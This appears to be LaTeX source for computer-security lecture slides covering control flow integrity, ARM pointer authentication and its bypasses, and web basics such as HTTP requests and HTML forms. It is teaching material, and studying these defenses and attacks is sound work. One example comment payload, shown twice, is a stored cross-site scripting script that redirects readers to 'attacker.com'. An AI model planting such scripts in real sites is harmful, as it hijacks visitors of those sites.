\date{}
\title{}
\date{}
\usepackage[outputdir=latex.out]{minted}
\begin{document}
\begin{frame}
    \titlepage
\end{frame}
\usetikzlibrary{calc}

\makeatletter
\newenvironment<>{btHighlight}[1][]
{\begin{onlyenv}#2\begingroup\tikzset{bt@Highlight@par/.style={#1}}\begin{lrbox}{\@tempboxa}}
{\end{lrbox}\bt@HL@box[bt@Highlight@par]{\@tempboxa}\endgroup\end{onlyenv}}

\newcommand<>\btHL[1][]{%
  \only#2{\begin{btHighlight}[#1]\bgroup\aftergroup\bt@HL@endenv}%
}
\def\bt@HL@endenv{%
  \end{btHighlight}%   
  \egroup %
}
\tikzset{
    btHLbox/.style={
        fill=red!30,outer sep=0pt,inner xsep=1pt, inner ysep=0pt, rounded corners=3pt
    },
}
\newcommand{\bt@HL@box}[2][]{%
  \tikz[#1]{%
    \pgfpathrectangle{\pgfpoint{1pt}{0pt}}{\pgfpoint{\wd #2}{\ht #2}}%
    \pgfusepath{use as bounding box}%
    \node[text width={},draw=none,anchor=base west, btHLbox, minimum height=\ht\strutbox+1pt,#1]{\raisebox{1pt}{\strut}\strut\usebox{#2}};
  }%
}

\lst@CCPutMacro
    \lst@ProcessOther {"2A}{%
      \lst@ttfamily 
         {\raisebox{2pt}{*}}% used with ttfamily
         {\raisebox{2pt}{*}}}% used with other fonts
    \@empty\z@\@empty

\lstdefinelanguage
   [x8664gas]{Assembler}     % add a "x64" dialect of Assembler
   [x86masm]{Assembler} % based on the "x86masm" dialect
   % with these extra keywords:
   {morekeywords={CDQE,CQO,CMPSQ,CMPXCHG16B,JRCXZ,LODSQ,MOVSXD,%
                  POPFQ,PUSHFQ,SCASQ,STOSQ,IRETQ,RDTSCP,SWAPGS,.TEXT,.STRING,.ASCIZ,%
                  BEQ,LW,SW,LB,SB,ADDIU,J,BEQZ,BNEZ,BNE,%
                  MOVUPD,MULPD,MOVSD,MULSD,%
                  SHLADD,MOV,CMP.LT,TBIT.NZ,BR.RET.SPTK.MANY,%
                  ADDQ,POPQ,PUSHQ,RRMOVQ,MRMOVQ,RMMOVQ,IRMOVQ,%
                  <-,LL,SC,ADDI,ADDL,VMOVDQA,ADDQ,CMPL,JB,JBE,MOVL,CLTQ,%
                  MOVW,PUSHW,MOV,ADD,SUB,INT,PUSH,MOV,ADD,REP,MOVSB,%
                  TESTQ,CMPQ,MOVL,MOVQ,ADDQ,JMPQ,XORQ,%
                  LEAQ,LEAL,LEA,RETQ,RET,POPL,POPW,PUSHL,PUSHW,%
                  LEAW,%
                  SUBQ,SYSCALL,.ASCII,CALLQ,MOVSLQ,JMP,ANDQ,SHRQ,MOVB,INCQ,TESTL,XORL,%
                  SHRL,LEAL,SARL,SUBL,IMULL,IMULQ,MOVDQU,PADDD,XORL,%
                  MOVZBL,MOVZB,SHRB,SRAL,SHRL,ANDL,%
                  CMOVNS,SRAL,SRAQ,MOVZBW,MOVZBQ,%
                  PADDW,PADDQ,MODUPS,MOVAPD,%
                  MOVL,RET,.GLOBL,%
		  PAUSE,LFENCE,JMP,%
                  },
    deletekeywords={eax,ebx,sp,si,cx,di,ds,cs,es,fs,dx,ax,bx,al,esi,ebp,ecx,rip,eip,edx,edi,rdi,esp},
    deletekeywords=[2]{size},
    alsoletter={\%},
    alsoother={()},
    emphstyle={\color{violet!50!black}},
    emph={\%rax,\%rbx,\%rcx,\%rdx,\%r8,\%r9,\%r10,\%r11,\%r12,\%r13,\%r14,\%r15,\%eax,\%ebx,\%sp,\%si,\%cx,\%di,\%ds,\%cs,\%es,\%fs,\%dx,\%ax,\%bx,\%al,\%esi,\%ebp,\%ecx,\%rip,\%eip,\%edx,\%edi,\%rdi,\%esp,\%rsp},
    %moreemph={eax,ebx,sp,si,cx,di,ds,cs,es,fs,dx,ax,bx,al,esi,ebp,ecx,rip,eip,edx,edi,rdi,esp},
    morecomment=[l]{\#},
    morecomment=[l]{\/\/},
    morecomment=[s]{/*}{*/},
    sensitive=false,
    keepspaces=true} % et

\lstalias[]{myasm}[x8664gas]{Assembler}

\lstdefinelanguage{JavaScript}{
  keywords={typeof, new, true, false, catch, function, return, null, catch, switch, var, if, in, while, do, else, case, break},
  ndkeywords={class, export, boolean, throw, implements, import, this},
  sensitive=false,
  comment=[l]{//},
  morecomment=[s]{/*}{*/},
  morestring=[b]',
  morestring=[b]"
}

\newcommand{\keywordstyle}{\sourcecodeprolight\bfseries\color{blue!30!black}}
\newcommand{\stringstyle}{\color{blue!20!black}\ttfamily}

\lstset{
    language=C,
    basicstyle=\sourcecodepro\EmptyMapping,
    escapechar=`,
    keywordstyle=\keywordstyle\EmptyMapping,
    identifierstyle=\sourcecodepro\EmptyMapping,
    numberstyle=\small\color{black!70},
    commentstyle=\color{red!60!black}\ttfamily\itshape,
    stringstyle=\color{blue!20!black}\ttfamily,
    ndkeywordstyle=\bfseries\color{blue!30!black},
    upquote=true,
}



\lstdefinestyle{medium}{
    basicstyle=\sourcecodepro\EmptyMapping\fontsize{12}{13}\selectfont,
    keywordstyle=\sourcecodepro\EmptyMapping\fontsize{12}{13}\selectfont\keywordstyle,
}

\lstdefinestyle{small}{
    basicstyle=\sourcecodepro\EmptyMapping\small,
    keywordstyle=\sourcecodepro\EmptyMapping\small\keywordstyle,
}

\lstdefinestyle{smaller}{
    basicstyle=\sourcecodepro\EmptyMapping\fontsize{11}{12}\selectfont,
    keywordstyle=\sourcecodepro\EmptyMapping\fontsize{11}{12}\selectfont\keywordstyle,
}

\lstdefinestyle{size105}{
    basicstyle=\sourcecodepro\EmptyMapping\fontsize{10.5}{11.5}\selectfont,
    keywordstyle=\sourcecodepro\EmptyMapping\fontsize{10.5}{11.5}\selectfont\keywordstyle,
}

\lstdefinestyle{size10}{
    basicstyle=\sourcecodepro\EmptyMapping\fontsize{10}{11}\selectfont,
    keywordstyle=\sourcecodepro\EmptyMapping\fontsize{10}{11}\selectfont\keywordstyle,
}

\lstdefinestyle{size9}{
    basicstyle=\sourcecodepro\EmptyMapping\fontsize{9}{10}\selectfont,
    keywordstyle=\sourcecodepro\EmptyMapping\fontsize{9}{10}\selectfont\keywordstyle,
}
\lstdefinestyle{size8}{
    basicstyle=\sourcecodepro\EmptyMapping\fontsize{8}{9}\selectfont,
    keywordstyle=\sourcecodepro\EmptyMapping\fontsize{8}{9}\selectfont\keywordstyle,
}



\lstdefinestyle{script}{
    basicstyle=\sourcecodepro\EmptyMapping\scriptsize,
    keywordstyle=\sourcecodepro\EmptyMapping\scriptsize\bfseries,
}




\begin{frame}{last time}
    \begin{itemize}
    \item control flow integrity
        \begin{itemize}
        \item on computed jump, check where it goes
        \item label locations based on compile-time information
        \item check label before jumping
        \end{itemize}
    \item imprecision of CFI
        \begin{itemize}
        \item still around misdirection --- return to a different call
        \item merge labels or check many labels when one call can reach many functions
        \item conservative compile-time analysis may include impossible paths
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}[fragile]{quiz Q1A}
    \begin{itemize}
    \item run a program such that it has access to two particular user's home directories
        \begin{itemize}
        \item assuming files in user home directories are readable/etc. `normally'
        \end{itemize}
    \end{itemize}
\begin{Verbatim}[fontsize=\small]
$ unshare --user --mount --map-root-user
# mkdir /tmp/workdir; cd /tmp/workdir
# mkdir -p home/user1 home/user2 bin lib lib64
# mount --bind /home/user1 /tmp/workdir/home/user1
# mount --bind /home/user2 /tmp/workdir/home/user2
# mount -o ro --bind /usr /tmp/workdir/usr
...
# chroot /tmp/workdir /bin/program
\end{Verbatim}
    \begin{itemize}
    \item access to world/group accessible files in user1/user2's directories
    \end{itemize}
\end{frame}

\begin{frame}{quiz Q2}
    \begin{itemize}
    \item option A: array with VTable pointers
        \begin{itemize}
        \item array won't have gaps between objects
        \item AddressSanitizer won't be able to add red zone
        \end{itemize}
    \item option C: next/prev in list of free memory regions
        \begin{itemize}
        \item AddressSanitizer replaces malloc(), add `red zones' between things
        \end{itemize}
    \item option D: array[X] where X is attacker supplied
        \begin{itemize}
        \item only detects if array[X] is not valid memory
        \end{itemize}
    \end{itemize}
\end{frame}

\section{Clang's CFI implementation}
\begin{frame}{clang's CFI implementation}
\begin{itemize}
\item \url{https://clang.llvm.org/docs/ControlFlowIntegrity.html}
    \begin{itemize}
    \item \scriptsize also \url{https://www.usenix.org/conference/usenixsecurity14/technical-sessions/presentation/tice}
    \end{itemize}
\item only checks calls via VTables or function pointers
\item stable implementation requires libraries compiled with support
\item label information is placed in separate data structure
    \begin{itemize}
    \item \myemph<2>{looked up using function} or VTable addresses
    \end{itemize}
\item trick: keep functions in one region of memory
\end{itemize}
\end{frame}

\begin{frame}[fragile,label=indirectDiag]{clang idea for CFI indirect calls}
\begin{tikzpicture}
\node[draw, very thick, align=left] (dispatcher) {
\begin{lstlisting}[language=myasm,style=smaller]
start_funcs_with_two_string_args:
.align 8
compare_alpha:
  jmp real_compare_alpha
.align 8
run_command_with_arg:
  jmp real_run_command_with_arg
.align 8
print_two_strings:
  jmp real_print_two_strings
.align 8
move_file:
  jmp real_move_file
.align 8
compare_reverse_alpha:
  jmp real_compare_reverse_alpha
end_funcs_with_two_sting_args:
\end{lstlisting}
};
\begin{visibleenv}<1>
\node[align=left,draw=red,very thick,anchor=north west] at ([xshift=1cm]dispatcher.north east) {
functions of same type \\
placed together \\
~ \\
every func's address \\
is multiple of 8
};
\end{visibleenv}
\begin{visibleenv}<2>
\node[align=left,draw=red,very thick,anchor=north west] at ([xshift=0.5cm]dispatcher.north east) {
check pseudocode: \\
round fptr to multiple of 8 \\
\textbf{if} fptr < start or fptr > end: \\
\hspace{1cm} CRASH \\
allowed $\leftarrow$ [1,0,0,0,1] \\
\hspace{0.5cm} \textit{`mask' for compare funcs} \\
offset $\leftarrow$ fptr - start \\
\textbf{if} bit (offset/8) of allowed \\
\hspace{2.5cm}is not set: \\
\hspace{1cm} CRASH
};
\end{visibleenv}
\end{tikzpicture}
\end{frame}

\begin{frame}{clang idea for VTables}
\begin{itemize}
\item check VTable element address instead of function address
\item otherwise
    \begin{itemize}
    \item place all VTables for related classes together
    \item check start/end address for VTables
    \item bit mask indicating which VTable entries are okay for call
    \end{itemize}
\end{itemize}
\end{frame}


\section{Clang's CFI prevents?}
\begin{frame}[fragile,label=cfiPrevents]{CFI prevents?}
\begin{lstlisting}[language=C++,style=script]
class Foo { public: virtual void f() { } };
class Bar : public Foo { public: virtual void f() { g(1); } };
class Quux : public Foo { public: virtual void f() { } };
void g(int x) { if (x == 0) { danger(); } }
int h(int x) { return 0; }
int (*ptr)(int) = &h;
\end{lstlisting}
\begin{itemize}
\item with clang's CFI, which likely can end up calling \texttt{danger()}
      if an attacker can first write to arbitrary memory locations?
    \begin{itemize}
    \item A. \lstinline|(*ptr)(1);| 
    \item B. \lstinline|(*ptr)(0);| \only<2->{\myemph{if compiler thinks ptr set to g ever, yes; otherwise, no}}
    \item C. \lstinline|Foo *q = attacker_controlled(); q->f()| \only<2->{\myemph{can only call real f() methods; could call Bar::f() but how to change g's arg?}}
    \item D. \lstinline|Quux *q = attacker_controlled(); q->f()| \only<2->{\myemph{can only call real f() methods of Quux and subclasses, so can't even call Bar::f()}}
    \item E. none of these
    \end{itemize}
\end{itemize}
\end{frame}


\subsection{problems with dynamically loaded code}
\begin{frame}{CFI: dynamically loaded libraries?}
    \begin{itemize}
    \item what about dynamically loaded libraries\ldots
    \item problem: precomputed control flow graph now invalid
    \end{itemize}
\end{frame}


\section{Intel's `CFI'}
\begin{frame}{Intel hardware CFI support}
    \begin{itemize}
    \item Intel adds `endbr64' instruction
    \item special NOP instruction that acts as a label
    \item means: only one label for everything
        \begin{itemize}
        \item prevents gadgets from existing
        \end{itemize}
    \vspace{.5cm}
    \item ``Control Flow Enforcement'': if enabled \\
        computed jump to non-endbr64 triggers segfault-like error
    \vspace{.5cm}
    \item ARM has similar feature called Branch Target Identification
    \end{itemize}
\end{frame}


\section{authenticated pointers}
\subsection{motivation}
\begin{frame}[fragile,label=authPtr1]{authenticated pointers (1)}
\begin{lstlisting}[language={},style=smaller]
some_function:
    authentication_code <- MAC(
        secret key, 
        return address
    )
    ... dangerous function code ...
    assert(authenication_code ==
        MAC(secret key, return addres))
    jump to return address
\end{lstlisting}
\end{frame}

\begin{frame}[fragile,label=authPtr2]{authenticated pointers (2)}
\begin{lstlisting}[language={},style=smaller]
some_function:
    authentication_code <- MAC(
        secret key,
        stack pointer, 
        return address
    )
    ... dangerous function code ...
    assert(authenication_code ==
        MAC(secret key, stack pointer, return address))
    jump to return address
\end{lstlisting}
\end{frame}


\begin{frame}[fragile,label=authPtr3]{authenticated pointers (3)}
\begin{lstlisting}[language={},style=smaller]
some_function:
    return address <- encode(
        secret key,
        stack pointer, 
        return address
    )
    ... dangerous function code ...
    return address <- decode_or_crash(
        secret key,
        stack pointer, 
        return address
    )
    jump to return address
\end{lstlisting}
\end{frame}

\begin{frame}[fragile,label=authPtr4]{authenticated pointers (4)}
\begin{lstlisting}[language={},style=smaller]
some_vtable[index] <- encrypt(
    secret key,
    label,
    address of some of function
)
... dangerous code ...
function pointer <- decrypt(
    secret key,
    label,
    object->vtable[index]
)
call function pointer
\end{lstlisting}
\end{frame}


\subsection{ARM support}
\begin{frame}[fragile,label=authPtr1]{authenticated pointers (1)}
\begin{lstlisting}[language={},style=smaller]
some_function:
    authentication_code <- MAC(
        secret key, 
        return address
    )
    ... dangerous function code ...
    assert(authenication_code ==
        MAC(secret key, return addres))
    jump to return address
\end{lstlisting}
\end{frame}

\begin{frame}[fragile,label=authPtr2]{authenticated pointers (2)}
\begin{lstlisting}[language={},style=smaller]
some_function:
    authentication_code <- MAC(
        secret key,
        stack pointer, 
        return address
    )
    ... dangerous function code ...
    assert(authenication_code ==
        MAC(secret key, stack pointer, return address))
    jump to return address
\end{lstlisting}
\end{frame}


\begin{frame}[fragile,label=authPtr3]{authenticated pointers (3)}
\begin{lstlisting}[language={},style=smaller]
some_function:
    return address <- encode(
        secret key,
        stack pointer, 
        return address
    )
    ... dangerous function code ...
    return address <- decode_or_crash(
        secret key,
        stack pointer, 
        return address
    )
    jump to return address
\end{lstlisting}
\end{frame}

\begin{frame}[fragile,label=authPtr4]{authenticated pointers (4)}
\begin{lstlisting}[language={},style=smaller]
some_vtable[index] <- encrypt(
    secret key,
    label,
    address of some of function
)
... dangerous code ...
function pointer <- decrypt(
    secret key,
    label,
    object->vtable[index]
)
call function pointer
\end{lstlisting}
\end{frame}

\begin{frame}{ARM authenticated pointers}
    \begin{itemize}
    \item ARM64 implements this idea with:
    \vspace{.5cm}
    \item secret key kept in a special register (hard to leak to attacker)
    \item authentication code placed in upper pointer bits
        \begin{itemize}
        \item makes pointer temporarily invalid
        \item can't ``accidentally'' use authenticated pointer without verifying authentication code first
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}[fragile]{authenticated pointer layout}

\includegraphics[width=\textwidth]{../cfi/arm-enc-ptr-fig}
\imagecredit{Liljestrand et al, ``PAC it up: Towards Pointer Integrity using ARM Pointer Authentication''}
\end{frame}

\begin{frame}{authentication keys}
    \begin{itemize}
    \item processes can have multiple authentication keys active
    \item easy to use separate keys for
        \begin{itemize}
        \item return address pointers
        \item function pointers
        \item any pointers to data
        \end{itemize}
    \item authentication keys are in special registers --- need OS to read/set
    \vspace{.5cm}
    \item also can ``mix'' in extra info like stack pointer
    \end{itemize}
\end{frame}

\begin{frame}{pointer authentication use}
    \begin{itemize}
    \item commonly enabled on ARM64 for return addreses
    \vspace{.25cm}
    \item otherwise:
    \item on ARM64 OS X --- used by OS X
        \begin{itemize}
        \item two different compiler `architectures': arm64, arm64e
        \item can't use arm64e libraries in arm64 program or vice-versa
        \end{itemize}
    \item proposals to use on Linux in global offset table, etc.
        \begin{itemize}
        \item GNU Linux linker option -z pac-plt; unclear if used `for real'
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}[fragile]{macOS PAC for apple code}

\includegraphics[height=0.9\textheight]{../cfi/apple-pac-usage}
\imagecredit{\url{https://support.apple.com/en-il/guide/security/sec8b776536b/1/web/1}}
\end{frame}

\begin{frame}{macOS PAC}
    \begin{itemize}
    \item `new' `preview' architecture in compiter
    \item seems to be used internally by Apple
    \item doesn't appear easily available/supported for others
    \item incompatible with `old' libraries
    \end{itemize}
\end{frame}

\begin{frame}{PAC bypasses}
    \begin{itemize}
    \item have been exploits in spite of PAC in iOS kernel
    \vspace{.5cm}
    \item only certain code pointers authenticated
        \begin{itemize}
        \item too expensive to authenticate all pointers
        \end{itemize}
    \item changing unsigned pointer values just before signed 
        \begin{itemize}
        \item get context switch to occur at just the right time
        \item modify pointer value in saved context
        \end{itemize}
    \item code that signs pointers they shouldn't
        \begin{itemize}
        \item changing pointer without crashing if old pointer invalid
        \end{itemize}
    \item `gadgets' that allow brute-forcing MAC tag
        \begin{itemize}
        \item not enough space in pointers for non-brute-forceable tag
        \end{itemize}
    \end{itemize}
\end{frame}

\subsection{relating to CFI}
\begin{frame}{authentication keys}
    \begin{itemize}
    \item processes can have multiple authentication keys active
    \item easy to use separate keys for
        \begin{itemize}
        \item return address pointers
        \item function pointers (in VTables, for example)
        \item any pointers to data
        \end{itemize}
    \item authentication keys are in special registers --- need OS to read/set
    \vspace{.5cm}
    \item also can ``mix'' in extra info like stack pointer
        \begin{itemize}
        \item similar to separate key for each stack address
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}{different limits}
    \begin{itemize}
    \item CFI and pointer authentication both limit use of address
    \item \ldots but don't eliminate potential for abuse:
        \begin{itemize}
        \item can still call wrong function in CFI
        \item can still use wrong signed pointer
        \end{itemize}
    \item scope of labels/authenticatoin keys+extra info important
    \end{itemize}
\end{frame}

\subsection{in iOS/OS X}

\begin{frame}{pointer authentication use}
    \begin{itemize}
    \item commonly enabled on ARM64 for return addreses
    \vspace{.25cm}
    \item otherwise:
    \item on ARM64 OS X --- used by OS X
        \begin{itemize}
        \item two different compiler `architectures': arm64, arm64e
        \item can't use arm64e libraries in arm64 program or vice-versa
        \end{itemize}
    \item proposals to use on Linux in global offset table, etc.
        \begin{itemize}
        \item GNU Linux linker option -z pac-plt; unclear if used `for real'
        \end{itemize}
    \end{itemize}
\end{frame}

\begin{frame}[fragile]{macOS PAC for apple code}

\includegraphics[height=0.9\textheight]{../cfi/apple-pac-usage}
\imagecredit{\url{https://support.apple.com/en-il/guide/security/sec8b776536b/1/web/1}}
\end{frame}

\begin{frame}{macOS PAC}
    \begin{itemize}
    \item `new' `preview' architecture in compiter
    \item seems to be used internally by Apple
    \item doesn't appear easily available/supported for others
    \item incompatible with `old' libraries
    \end{itemize}
\end{frame}

\begin{frame}{PAC bypasses}
    \begin{itemize}
    \item have been exploits in spite of PAC in iOS kernel
    \vspace{.5cm}
    \item only certain code pointers authenticated
        \begin{itemize}
        \item too expensive to authenticate all pointers
        \end{itemize}
    \item changing unsigned pointer values just before signed 
        \begin{itemize}
        \item get context switch to occur at just the right time
        \item modify pointer value in saved context
        \end{itemize}
    \item code that signs pointers they shouldn't
        \begin{itemize}
        \item changing pointer without crashing if old pointer invalid
        \end{itemize}
    \item `gadgets' that allow brute-forcing MAC tag
        \begin{itemize}
        \item not enough space in pointers for non-brute-forceable tag
        \end{itemize}
    \end{itemize}
\end{frame}

% FIXME


\usetikzlibrary{arrows.meta,calc,shapes.callouts,positioning}

\begin{frame}<0>[fragile,label=storedXSS]{stored cross-site scripting}
\begin{tikzpicture}
    \node[draw,thick,inner sep=5mm,align=left,text=red!70!black,align=left] (commentBox) {
\begin{lstlisting}[language={}]
<script>
    document.location = 'http://attacker.com';
</script>
\end{lstlisting}
    };
    \node[anchor=south west] at (commentBox.north west) { Your comment: };
    \node[align=left,anchor=north west] (nameLabel) at (commentBox.south west) {
        Name: 
    };
    \node[draw,font=\tt,thick,inner sep=1mm,align=left,text=red!70!black,anchor=west,minimum width=5cm] at (nameLabel.east) {
        An Attacker
    };
\end{tikzpicture}
\end{frame}

\begin{frame}[fragile,label=storedXSS2]{stored cross-site scripting}
    
\includegraphics[width=\textwidth]{../web/stores-xss}
\end{frame}

\begin{frame}{scripts on webpages}
    \begin{itemize}
    \item this example: redirect someone reading comment to other website
    \item common proof of concept: make alert box
    \vspace{.5cm}
    \item not especially useful for most attacker goals
    \end{itemize}
\end{frame}

\section{the web overall}

\begin{frame}{the web}
    \begin{tikzpicture}
        \node[draw,thick,fill=blue!30] (browser) {
            Web Browser
        };
        \node[draw,thick,fill=green!30,right=2cm of browser] (webSite1) {
            facebook.com
        };
        \node[draw,thick,fill=green!30,below=.5cm of webSite1] (webSite2) {
            foobar.com (uses facebook login)
        };
        \node[draw,thick,fill=red!30,below=.5cm of webSite2] (webSite3) {
            evil.com (run by attacker)
        };
        \draw[thick,Latex-Latex] (browser) -- (webSite1.west);
        \draw[thick,Latex-Latex] (browser) -- (webSite2.west);
        \draw[thick,Latex-Latex] (browser) -- (webSite3.west);
    \end{tikzpicture}
\begin{itemize}
    \item one web browser talks to multiple websites
    \item how does it (or does it) keep each websites seperate?
    \item even though websites can link to each other/etc.?
\end{itemize}
\end{frame}

\begin{frame}{the browser is basically an OS}
    \begin{itemize}
    \item websites are JavaScript programs
    \item websites can communicate with each other
        \begin{itemize}
        \item one website can embed another
        \item cause browser to send requests to another
        \end{itemize}
    \item websites can store data on the browser
        \begin{itemize}
        \item cookies
        \item local storage
        \end{itemize}
    \end{itemize}
\end{frame}



%\usetikzlibrary{arrows.meta}
\begin{frame}<0>[fragile,label=storedXSS]{stored cross-site scripting}
\begin{tikzpicture}
    \node[draw,thick,inner sep=5mm,align=left,text=red!70!black,align=left] (commentBox) {
\begin{lstlisting}[language={}]
<script>
    document.location = 'http://attacker.com';
</script>
\end{lstlisting}
    };
    \node[anchor=south west] at (commentBox.north west) { Your comment: };
    \node[align=left,anchor=north west] (nameLabel) at (commentBox.south west) {
        Name: 
    };
    \node[draw,font=\tt,thick,inner sep=1mm,align=left,text=red!70!black,anchor=west,minimum width=5cm] at (nameLabel.east) {
        An Attacker
    };
\end{tikzpicture}
\end{frame}

\begin{frame}[fragile,label=storedXSS2]{stored cross-site scripting}
    
\includegraphics[width=\textwidth]{../web/stores-xss}
\end{frame}

\section{Web overall}

\begin{frame}{the web}
    \begin{tikzpicture}
        \node[draw,thick,fill=blue!30] (browser) {
            Web Browser
        };
        \node[draw,thick,fill=green!30,right=2cm of browser] (webSite1) {
            facebook.com
        };
        \node[draw,thick,fill=green!30,below=.5cm of webSite1] (webSite2) {
            foobar.com (uses facebook login)
        };
        \node[draw,thick,fill=red!30,below=.5cm of webSite2] (webSite3) {
            evil.com (run by attacker)
        };
        \draw[thick,Latex-Latex] (browser) -- (webSite1.west);
        \draw[thick,Latex-Latex] (browser) -- (webSite2.west);
        \draw[thick,Latex-Latex] (browser) -- (webSite3.west);
    \end{tikzpicture}
\begin{itemize}
    \item one web browser talks to multiple websites
    \item how does it (or does it) keep each websites seperate?
    \item even though websites can link to each other/etc.?
\end{itemize}
\end{frame}

\begin{frame}{the browser is basically an OS}
    \begin{itemize}
    \item websites are JavaScript programs
    \item websites can communicate with each other
        \begin{itemize}
        \item one website can embed another
        \item cause browser to send requests to another
        \end{itemize}
    \item websites can store data on the browser
        \begin{itemize}
        \item cookies
        \item local storage
        \end{itemize}
    \end{itemize}
\end{frame}

\subsection{HTTP}

\begin{frame}[fragile,label=HTTPReq]{HTTP requests}
\texttt{https://server.com/dir/file?query=string\#anchor} \\
    browser connects to server.com; \textbf{browser} sends:
\begin{framed}
\tt
\myemph<2>{GET}\tikzmark{method} /dir/file?query=string HTTP/1.1 \\
\myemph<3>{Host: \myemph<4>{server.com}\tikzmark{host}} \\
\myemph<3>{\textit{Other-Key}:  \textit{Other-Value}} \\
\ldots \\
~ \\
\end{framed}
    \begin{tikzpicture}[overlay,remember picture]
        \coordinate (overBox) at ([yshift=-2cm]current page.center);
        \tikzset{
            every node/.style={align=left,anchor=center},
        }
        \begin{visibleenv}<2>
        \node[my callout=method,anchor=center] at (overBox) {
            method: GET or POST most common \\
            GET --- read web page \\
            POST --- submit form
        };
        \end{visibleenv}
        \begin{visibleenv}<3>
        \node[my callout=host,anchor=center] at (overBox) {
            headers: \\
            extra information with request
        };
        \end{visibleenv}
        \begin{visibleenv}<4>
        \node[my callout=host,anchor=center] at (overBox) {
            example extra info: domain name from URL \\
            servers can host mutliple domains
        };
        \end{visibleenv}
\end{tikzpicture}
\end{frame}

\begin{frame}[fragile,label=HTTPResp]{HTTP responses}
\texttt{https://server.com/path/to/file?query=string\#anchor} \\
    after browser sends request; \textbf{server} sends:
\begin{framed}
\tt
HTTP/1.1 200 OK \\
Content-Type: text/html\tikzmark{contentType} \\
\textit{Other-Key}:  \textit{Other-Value} \\
~ \\
<html>\ldots
\end{framed}
    \begin{tikzpicture}[overlay,remember picture]
        \coordinate (overBox) at ([yshift=-2cm]current page.center);
    \end{tikzpicture}
\end{frame}

\begin{frame}{demo}
\end{frame}

\begin{frame}[fragile,label=HTMLForms1]{HTML forms (1)}
\begin{minted}[fontsize=\small]{HTML}
<form action="https://example.com/search/" method="GET">
<input type="hidden" name="recipient"
       value="webmaster@example.com">
Search for: <input name="q" value=""><br>
<input type="submit" value="Search">
</form>
\end{minted}
\begin{framed}
\tt\small
GET /search/?q=What\%20I\%20searched\%20for HTTP/1.1 \\
Host: example.com
\end{framed}
    \begin{itemize}
        \item q is ``\fbox{What I searched for}''
        \item \%20 --- character hexadecimal 20 (space)
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=HTMLForms2]{HTML forms (2)}
\begin{minted}[fontsize=\small]{HTML}
<form action="https://example.com/formmail.pl" method="POST">
<input type="hidden" name="recipient"
       value="webmaster@example.com">
Your email: <input name="from" value=""><br>
Your message:<textarea name="message"></textarea>
<input type="submit">
</form>
\end{minted}
\begin{framed}
\tt\small
POST /formmail.pl HTTP/1.1 \\
Host: example.com \\
Content-Type: application/x-www-form-urlencoded \\
~ \\
recipient=webmaster@example.com\&from=\textit{what\%20I\%20Entered}\\\&message=\textit{Some\%20message\%0a\ldots} \\
\end{framed}
\end{frame}

% FIXME: GET forms

\section{Trusting the client}

